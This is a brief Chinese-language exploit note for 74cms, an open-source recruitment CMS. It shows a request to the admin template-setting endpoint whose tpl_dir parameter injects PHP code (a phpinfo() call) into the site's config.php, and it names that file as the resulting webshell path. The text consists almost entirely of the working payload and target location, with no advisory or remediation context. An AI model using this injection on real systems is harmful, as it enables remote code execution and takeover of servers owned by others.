 漏洞利用
--------

管理面板-風格模板-工具-點擊可用模板抓包

    url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'

    webshell:http://74cms.test/Application/Home/Conf/config.php


    \74cms\upload\Application\Home\Conf\config.php